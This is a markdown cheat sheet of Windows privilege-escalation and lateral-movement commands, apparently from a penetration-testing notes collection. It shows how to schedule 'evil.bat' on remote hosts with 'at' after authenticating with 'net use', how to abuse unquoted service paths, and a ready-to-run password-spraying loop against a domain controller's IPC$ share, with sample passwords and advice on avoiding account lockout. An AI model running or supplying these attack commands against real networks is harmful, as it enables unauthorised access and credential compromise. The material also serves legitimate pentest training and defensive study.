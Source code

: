 # Windows Privilege Escalation Commands

Command that can be executed from the context of a shell prompt that help escalate or increase attacker privilege of the target.

  * [UAC](uac.md) - How to bypass UAC.

# General Commands
### at (Scheduler)
 * **Command with arguments**: `at [TIME] [cmd]`
 * **Description**: This command can be used locally to escalate privilege to SYSTEM or be used across a network to execute commands on another system.
 * **Examples**: 
    * Locally - `at 13:20 /interactive cmd`
    * Remotely - From http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607
         * `net use \\[computername|IP] /user:DOMAIN\username password`
         * `net time \\[computername|IP]`
         * `at \\[computername|IP] 13:20 c:\temp\evil.bat`

# Service security

### Unquoted service names

Services with unquoted binary paths may allow privilege escalation.

 * Assume ServiceA refers to the unquoted path C:\Program Files\Some Service\service.exe
 * Service is started with desirable privileges (e.g. domain, SYSTEM)
 * If attacker can create files as c:\Program.exe or ''c:\Program Files\Some.bat'' the next time the service starts the attacker controlled binary will execute
   * This is because the system can not decide if a space in the command string indicates a space in the binary path or a separator between command line arguments. The system starts with the first substring before the first space and checks if there is a file with an executable extension there (in this case C:\Program.exe, C:\Program.bat, etc.). If there is not, it checks for the next substring (C:\Program Files\Some.exe, C:\Program Files\Some.bat, etc.) and so on. If you can create a file that is checked before the intended executable, you win.
   * The scenario is typical when services are created from the command line with sc: `sc create PrivEsc binpath= "..."`

# Password Spraying

This section taken from Skoudis / Strand Pillage the Village redux webcast

### Get a list of users from the domain
 * **Command with arguments**: `net user /domain`
 * **Description**: This command will pull a list of all domain user accounts
 * **Examples**: 
    * Locally - `net user /domain > users`

### Simple `for` loop to try one or two passwords across all the users on the domain
 * **Command with arguments**: `@FOR /F %n in (users.txt) DO @FOR /F %p in (pass.txt) DO @net use \\[DOMAINCONTROLLER]\IPC$ /user:[DOMAIN]\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use / delete \\[DOMAINCONTROLLER]\IPC$ > NUL`
 * **Formatted for readability:
```
@FOR /F %n in (users.txt) DO
 @FOR / F %p in (pass.txt) DO
  @net use \\[DOMAINCONTROLLER]\IPC$ /user:[DOMAIN]\%n %p 1>NUL 2>&1 &&
   @echo [*] %n:%p &&
    @net use / delete \\[DOMAINCONTROLLER]IPC$ > NULL
```
 * **Description**: a for loop that iterated over all the users in `users.txt` and tries all the passwords listed in `pass.txt`. Can be used with the `net user /domain` command listed above for every user in the domain.
 *  **Note**: To prevent account lockout, the amount of passwords in `pass.txt` should be kept very small--one or two at most.
 * **Examples**: 
  * Running this command against a domain `COMPANY` and a domain controller `COMPANYDC1`
       * `net user /domain > DomainUsers.txt`
        * `echo "Password1" >> pass.txt`
        * `echo "1q2w3e4r" >> pass.txt`
        * `@FOR /F %n in (DomainUsers.txt) DO @FOR /F %p in (pass.txt) DO @net use \\COMPANYDC1\IPC$ /user:COMPANY\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use / delete \\COMPANYDC1\IPC$ > NUL`

# Tools

* [Windows Privesc Check](https://code.google.com/p/windows-privesc-check/)
  * Python + PyInstaller
  * No unicode support ([attempt to fix this](https://github.com/silentsignal/wpc))
  * Awful code base
* [Windows Privesc Check 2.0](https://github.com/silentsignal/wpc/tree/wpc-2.0)
  * Python + PyInstaller
  * Code is still very hard to maintain
  * Still painful to use on non-English systems
* [PowerUp](https://github.com/HarmJ0y/PowerUp)
  * Smart PowerShell cmdlets (you can run these at remote hosts also!)
  * Offensive approach
  * Checks only the privileges of the executing user
* [WPC-PS](https://github.com/silentsignal/wpc-ps)
  * PowerShell
  * Tends to check privileges for all accounts (thus identifying potential targets for privesc)
  * Still experimental

